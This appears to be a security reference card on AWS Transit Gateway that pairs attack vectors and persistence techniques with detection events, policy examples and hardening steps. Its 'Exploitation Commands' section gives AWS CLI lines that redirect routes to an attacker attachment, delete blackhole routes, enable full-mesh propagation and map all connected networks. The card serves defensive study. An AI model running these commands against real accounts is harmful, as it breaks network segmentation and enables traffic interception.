

#  AWS Transit Gateway Security



> **Category**: NETWORK TRANSIT

Transit Gateway (TGW) is a network hub connecting VPCs, VPNs, and Direct Connect. Route manipulation can destroy network segmentation, enable traffic interception, and provide lateral movement across accounts.

## Quick Stats

| Route Tables | Via RAM | Max Attachments | By Default |
| --- | --- | --- | --- |
| **No Deny** | **Cross-Acct** | **5000** | **No Logs** |

## Service Overview

### Route Tables & Propagation

TGW route tables control traffic flow between attachments. Route propagation automatically learns routes from VPCs and VPNs. A single shared route table with propagation enabled creates a full mesh network, destroying all segmentation.

### Attachments & Sharing

TGW connects VPCs, VPN connections, Direct Connect gateways, and TGW peering. Cross-account sharing via RAM allows other accounts to attach their VPCs. There is no concept of "deny" in TGW route tables - only allow or blackhole.

### Inter-Region Peering

TGW peering connects transit gateways across regions, enabling global routing. A compromised TGW in one region can be peered to reach networks in other regions, amplifying the blast radius of a network compromise significantly.

## Security Risk Assessment

`█████████░` **8.5/10** (CRITICAL)

Transit Gateway controls routing for the entire network. Route manipulation destroys segmentation, blackhole deletion re-enables blocked traffic, and TGW flow logs are not enabled by default leaving no audit trail.

## ⚔️ Attack Vectors

### Route Manipulation

- Create routes to redirect traffic through attacker VPC
- Replace existing routes to intercept sensitive traffic
- Delete blackhole routes to re-enable blocked connectivity
- Enable route propagation for full mesh access
- VPN route injection from compromised VPN connection

### Network Expansion

- Create TGW peering attachment for cross-region access
- Attach attacker VPC to shared Transit Gateway
- Modify route table associations to gain access
- Cross-account pivot via RAM-shared TGW
- Direct Connect gateway attachment for on-premises access

## ⚠️ Misconfigurations

### Routing Issues

- Single route table for all VPCs (no segmentation)
- Auto-propagation enabled on all route tables
- No blackhole routes for sensitive CIDRs
- Default route table association for new attachments
- Overlapping CIDRs causing routing conflicts

### Monitoring Gaps

- TGW flow logs not enabled (not on by default)
- No alerts on route table changes
- RAM sharing without restriction on who can attach
- No network segmentation validation
- Peering attachments not audited

## 🔍 Enumeration

**List Transit Gateways**
```bash
aws ec2 describe-transit-gateways
```

**List Route Tables**
```bash
aws ec2 describe-transit-gateway-route-tables \\
  --filters Name=transit-gateway-id,Values=tgw-0123456789abcdef
```

**Search Routes**
```bash
aws ec2 search-transit-gateway-routes \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --filters Name=state,Values=active
```

**List Attachments**
```bash
aws ec2 describe-transit-gateway-attachments \\
  --filters Name=transit-gateway-id,Values=tgw-0123456789abcdef
```

**List Peering Attachments**
```bash
aws ec2 describe-transit-gateway-peering-attachments
```

## 🚨 Key Concepts

### No Deny in TGW Route Tables

- TGW route tables only have active routes and blackhole routes
- No deny rules like NACLs or security groups
- Blackhole routes drop traffic but can be deleted by attacker
- Route specificity determines which route wins (longest prefix)
- A more specific route overrides broader blackhole routes

### Blast Radius Amplification

- Single TGW connects hundreds of VPCs across accounts
- Route propagation enables auto-discovery of all connected networks
- Cross-region peering extends reach to other AWS regions
- VPN attachment routes can be injected from on-premises
- Compromising TGW admin = compromising the entire network

## ⚡ Persistence Techniques

### Route Persistence

- Add static routes pointing to attacker VPC attachment
- Enable propagation to auto-learn new VPC routes
- Create additional route table with permissive routing
- Associate target VPC attachments with attacker route table
- Create peering attachment for out-of-band access path

### Attachment Persistence

- Attach attacker VPC to Transit Gateway via RAM share
- Create VPN attachment for persistent external access
- Modify existing route table associations subtly
- Add routes that survive attachment deletion
- Cross-account attachment remains after RAM share revoked

## 🛡️ Detection

### CloudTrail Events

- CreateTransitGatewayRoute - new route added to TGW route table
- ReplaceTransitGatewayRoute - existing route modified
- DeleteTransitGatewayRoute - blackhole route removed
- CreateTransitGatewayPeeringAttachment - peering created
- AssociateTransitGatewayRouteTable - association changed

### Indicators of Compromise

- Unexpected route additions to TGW route tables
- Blackhole routes deleted without change ticket
- New VPC attachments from unknown accounts
- Peering attachments to unknown regions
- Route propagation enabled on isolated route tables

## Exploitation Commands

**Create Route to Redirect Traffic**
```bash
aws ec2 create-transit-gateway-route \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --destination-cidr-block 10.0.0.0/8 \\
  --transit-gateway-attachment-id tgw-attach-attacker
```

**Replace Existing Route**
```bash
aws ec2 replace-transit-gateway-route \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --destination-cidr-block 10.1.0.0/16 \\
  --transit-gateway-attachment-id tgw-attach-attacker
```

**Delete Blackhole Route**
```bash
aws ec2 delete-transit-gateway-route \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --destination-cidr-block 10.99.0.0/16
```

**Enable Route Propagation (Full Mesh)**
```bash
aws ec2 enable-transit-gateway-route-table-propagation \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --transit-gateway-attachment-id tgw-attach-prod-vpc
```

**Create Peering Attachment (Cross-Region)**
```bash
aws ec2 create-transit-gateway-peering-attachment \\
  --transit-gateway-id tgw-source \\
  --peer-transit-gateway-id tgw-target \\
  --peer-region eu-west-1 \\
  --peer-account-id 123456789012
```

**Map All Connected Networks**
```bash
for rtb in $(aws ec2 describe-transit-gateway-route-tables --query 'TransitGatewayRouteTables[].TransitGatewayRouteTableId' --output text); do
  echo "=== Route Table: $rtb ==="
  aws ec2 search-transit-gateway-routes --transit-gateway-route-table-id $rtb --filters Name=state,Values=active --query 'Routes[].[DestinationCidrBlock,TransitGatewayAttachments[0].ResourceId]' --output table
done
```

## Policy Examples

### ❌ Dangerous - Full TGW Route Control

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "ec2:CreateTransitGatewayRoute",
      "ec2:ReplaceTransitGatewayRoute",
      "ec2:DeleteTransitGatewayRoute",
      "ec2:*TransitGateway*"
    ],
    "Resource": "*"
  }]
}
```

*Full TGW access allows route manipulation, blackhole deletion, and cross-region peering creation*

### ✅ Secure - Read-Only Network Monitoring

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "ec2:DescribeTransitGateways",
      "ec2:DescribeTransitGatewayRouteTables",
      "ec2:SearchTransitGatewayRoutes",
      "ec2:DescribeTransitGatewayAttachments"
    ],
    "Resource": "*"
  }]
}
```

*Read-only access for network monitoring without route modification capabilities*

### ❌ Dangerous - Can Delete Blackhole Routes

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "ec2:DeleteTransitGatewayRoute",
      "ec2:EnableTransitGatewayRouteTablePropagation"
    ],
    "Resource": "*"
  }]
}
```

*Deleting blackhole routes re-enables blocked traffic, and enabling propagation creates full mesh*

### ✅ Secure - SCP Restrict Route Changes

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Sid": "DenyTGWRouteChanges",
    "Effect": "Deny",
    "Action": [
      "ec2:CreateTransitGatewayRoute",
      "ec2:ReplaceTransitGatewayRoute",
      "ec2:DeleteTransitGatewayRoute",
      "ec2:CreateTransitGatewayPeeringAttachment"
    ],
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "aws:PrincipalArn": "arn:aws:iam::*:role/NetworkAdmin"
      }
    }
  }]
}
```

*SCP restricts TGW route changes to a dedicated NetworkAdmin role only*

## Defense Recommendations

### 🔒 Separate Route Tables Per Security Domain

Use isolated route tables for production, development, and shared services. Never use a single route table for all VPCs.

### 🚫 Disable Auto-Propagation

Disable route propagation and use static routes only. Auto-propagation creates full mesh that breaks segmentation.

```bash
aws ec2 disable-transit-gateway-route-table-propagation \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --transit-gateway-attachment-id tgw-attach-vpc
```

### 📡 Enable TGW Flow Logs

TGW flow logs are not enabled by default. Enable them to detect traffic anomalies and unauthorized routing.

```bash
aws ec2 create-flow-logs \\
  --resource-type TransitGateway \\
  --resource-ids tgw-abc123 \\
  --traffic-type ALL \\
  --log-destination-type s3 \\
  --log-destination arn:aws:s3:::flow-logs-bucket
```

### 🕳️ Blackhole Unused CIDRs

Add blackhole routes for CIDRs that should never be routable to prevent lateral movement.

```bash
aws ec2 create-transit-gateway-route \\
  --transit-gateway-route-table-id tgw-rtb-abc123 \\
  --destination-cidr-block 10.99.0.0/16 \\
  --blackhole
```

### 🔔 Alert on Route Table Changes

Create EventBridge rules for CreateTransitGatewayRoute, DeleteTransitGatewayRoute, and peering changes.

### 🏢 Restrict RAM Sharing

Control which accounts can attach to the TGW via RAM resource share permissions and SCPs.

---

*AWS Transit Gateway Security Card*

*Always obtain proper authorization before testing*
